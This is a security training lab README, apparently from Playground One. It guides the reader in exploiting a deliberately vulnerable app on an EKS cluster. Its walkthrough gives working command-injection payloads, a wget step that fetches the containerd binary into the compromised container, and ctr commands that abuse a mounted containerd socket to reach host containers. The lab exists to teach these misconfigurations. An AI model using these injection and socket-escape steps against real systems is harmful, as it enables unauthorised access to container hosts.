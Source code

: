 # Scenario: ContainerD Abuse

## Prerequisites

- Vision One Container Security
- Playground One EKS Cluster
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
$ pgo --apply eks
$ pgo --apply scenarios
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but heavily adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

By the end of the scenario, you will understand and learn the following:

- You will learn to test and exploit the container UNIX socket misconfigurations
- Able to exploit container and escape out of the container
- Learn about ContainerD
- Learn common misconfigurations in pipelines and CI/CD build systems

## The story

Most of the CI/CD and pipeline systems use the underlying host Docker runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit a very similar misconfiguration and gain access to the host system by escaping out of the container.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_health_check>`

## Goals

The goal of this scenario is to escape out of the running container to the host system where the container is running and able to access and perform actions on the host system.

> ***Tip:*** If you are able to obtain containers running in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation, e.g. spinning up an additional container.

### Hints

<details>
<summary>Click here</summary>

✨ Do you know how to run multiple commands in Linux?
<br><br>
The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌
<br><br>
✨ Able to run system commands, not sure how to access containers?
<br><br>
Identify the mounted UNIX socket volume, and use `ctr` binary to communicate with that with <b>-H</b> flag 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

Start by checking that DNS resolution is working for your cluster. If this doesn't work, check to see if you have a DNS service like CoreDNS running on your cluster.

```bash
www.google.com
```

By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain.
<br><br>
It contains `/containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

Wow! We can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket via gRPC.
<br><br>
Note: We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [official containerd binary](https://containerd.io/downloads/), or a simple `grpcurl` program as well.
<br><br>
The easiest way to interact with containerd is to use the `ctr` command. We can download the official `ctr` static binary from the internet [https://containerd.io/downloads/](https://containerd.io/downloads/).
<br><br>
Then download the appropriate containerd binary to the container. We can use the following command (takes some time, be patient).

```bash
; wget https://github.com/containerd/containerd/releases/download/v1.6.20/containerd-1.6.20-linux-amd64.tar.gz -O /tmp/containerd-1.6.20.tgz
```

We can extract the binary from the `containerd-1.6.20.tgz` file so that we can use that to talk to the UNIX socket

```bash
; tar -xvzf /tmp/containerd-1.6.20.tgz -C /tmp/ bin/ctr
```

Now we can access the host system by running the following containerd commands with passing `containerd.sock` containerd's gRPC server. Let's check what is running from kubernetes.

```bash
; /tmp/bin/ctr -a /custom/containerd/containerd.sock -n=k8s.io containers ls
```

Hooray 🥳, now we can see that it has a lot of containers are running in the host system. We can now use different ctr commands to gain more access and further exploitation.
<br><br>
🎉 Success 🎉
<br><br>
If you'd like to create containers now, try it. Be beware of the fact that the design of containerd is that clients should be local to the daemon. Running a client in a container is effectively non-local without some very specific configuration (which will vary depending on what you are trying to do).

</details>

## References

- [Interacting with containerd runtime for kubernetes](https://www.vxav.fr/2021-09-13-interacting-with-containerd-runtime-for-kubernetes/)
